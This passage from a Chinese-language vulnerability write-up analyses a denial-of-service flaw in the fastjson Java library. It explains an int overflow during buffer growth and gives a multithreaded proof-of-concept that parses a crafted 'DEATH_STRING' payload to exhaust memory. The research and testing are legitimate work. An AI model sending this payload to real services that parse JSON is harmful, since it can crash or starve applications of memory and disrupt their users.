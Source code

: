 ![](https://p2.ssl.qhimg.com/t01ba12ad7a41eaed19.png)

此时sbuf的长度为1073741824（1G的大小），而sbuf.length的类型为int型，int型最大为2147483647。

而1073741824×2= 2147483648，正好大1，所以下溢出了：

![](https://p4.ssl.qhimg.com/t01e096cc768b345306.png)

此时内存占用3.3GB左右。

![](https://p2.ssl.qhimg.com/t0198868a58adc846a4.png)

通过多方查询，java的默认最大允许内存最大物理内存的1/4，我这应该就是5GB左右，此时还没有到OOM的标准，反而由于下溢出先触发了NegativeArraySizeException这个异常。



## 多线程运行触发OOM

既然单的不行就来个多的，稍微改下代码，改个多线程的：

```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONException;

public class fastjsonDos1 implements Runnable`{`
    public static void main(String[] args)  `{`

        new Thread(new fastjsonDos1()).start();
        new Thread(new fastjsonDos1()).start();
//        new Thread(new fastjsonDos1()).start();
//       new Thread(new fastjsonDos1()).start();
//        new Thread(new fastjsonDos1()).start();

    `}`

    public void run() `{`
        String DEATH_STRING = "`{`"a":"\x";
        try`{`
            Object obj = JSON.parse(DEATH_STRING);
            System.out.println(obj);
        `}`catch (JSONException ex)`{`
            System.out.println(ex);
        `}`
    `}`
`}`

```

我的测试机20GB内存两个线程就OOM了：

![](https://p1.ssl.qhimg.com/t01cb24b9e62483c64c.png)

可以看到Thread1先OOM，Thread0缺依然是下溢出问题，所以虽然线程OOM了，java进程并没有挂掉。

![](https://p2.ssl.qhimg.com/t01d8e6a7f956e21906.png)
